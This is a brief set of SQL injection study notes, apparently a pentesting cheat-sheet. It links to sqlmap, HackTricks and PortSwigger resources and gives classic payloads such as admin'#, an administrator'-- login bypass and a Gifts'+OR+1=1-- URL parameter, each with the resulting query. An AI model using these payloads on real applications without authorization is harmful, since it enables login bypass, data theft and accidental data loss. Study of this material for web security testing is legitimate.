 # SQL Injection


Even if it appears to be harmless, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.


## Resources
https://github.com/sqlmapproject/sqlmap/wiki/
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

https://book.hacktricks.xyz/pentesting-web/sql-injection
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main

https://portswigger.net/web-security/sql-injection/cheat-sheet

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main


## Payloads

`admin'#` close the query with that single quote, allowing the script to search for the 
admin username. By adding the hashtag, we will comment out the rest: `SELECT * FROM users WHERE username='admin'#' AND password='abc123'`


`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`



